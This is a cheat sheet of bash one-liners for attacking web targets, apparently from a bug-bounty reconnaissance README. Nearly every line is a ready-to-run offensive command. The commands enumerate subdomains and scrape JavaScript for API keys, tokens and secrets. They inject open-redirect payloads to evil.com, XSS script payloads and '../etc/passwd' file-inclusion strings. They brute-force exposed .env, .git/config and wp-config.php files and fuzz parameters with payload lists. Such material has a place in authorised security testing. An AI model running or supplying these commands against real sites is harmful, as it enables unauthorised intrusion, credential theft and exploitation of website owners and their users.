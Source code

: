 ### All-in-One Recon Pipeline (Subdomains → Probing → Ports → Tech Detection → Titles)
```bash
subfinder -d target.com | anew subs.txt && cat subs.txt | httpx -silent -title -tech-detect -ports 80,443,8080,8443 | anew alive.txt
```

### Mass Fetch JS Files + Find Secrets + Endpoints + Tokens
```bash
cat alive.txt | hakrawler -subs | grep '\.js$' | anew jsfiles.txt && cat jsfiles.txt | xargs -I{} bash -c 'curl -s {} | tr -d "\r" | egrep -i "(api|key|token|secret|password|passwd|authorization|bearer|client_id|client_secret)"' | tee secrets.txt
```

### Check for Open Redirects Across All Params (with Payload Injection)
```bash
cat alive.txt | gf redirect | qsreplace 'https://evil.com' | httpx -silent -fr 'evil.com' -mc 302,301
```

### Automatic Vulnerability Scan (Subdomains to CVE Detection + Misconfigs)
```bash
subfinder -d target.com | httpx -silent | nuclei -silent -t cves/,misconfiguration/
```

### Backup Files Bruteforce Across All Hosts
```bash
cat alive.txt | httpx -silent -path-list <(echo -e "/.git/config\n/.env\n/database.sql\n/backup.zip\n/config.php\n/wp-config.php") -mc 200 | tee backups.txt
```

### Check for Parameter-Based XSS (Direct Injection Testing)
```bash
cat alive.txt | hakrawler -subs -depth 2 | gf xss | qsreplace '"><script>alert(document.domain)</script>' | httpx -silent -fr 'alert(document.domain)'
```

### Automated LFI Discovery (Common Payloads)
```bash
cat alive.txt | gf lfi | qsreplace '../../../../../../etc/passwd' | httpx -silent -mc 200
```

### Fuzz Parameters & Check Reflections (for XSS & Injection Discovery)
```bash
cat alive.txt | waybackurls | gf params | uro | qsreplace FUZZ | ffuf -u FUZZ -w wordlists/payloads/xss.txt -fr 'FUZZ'
```
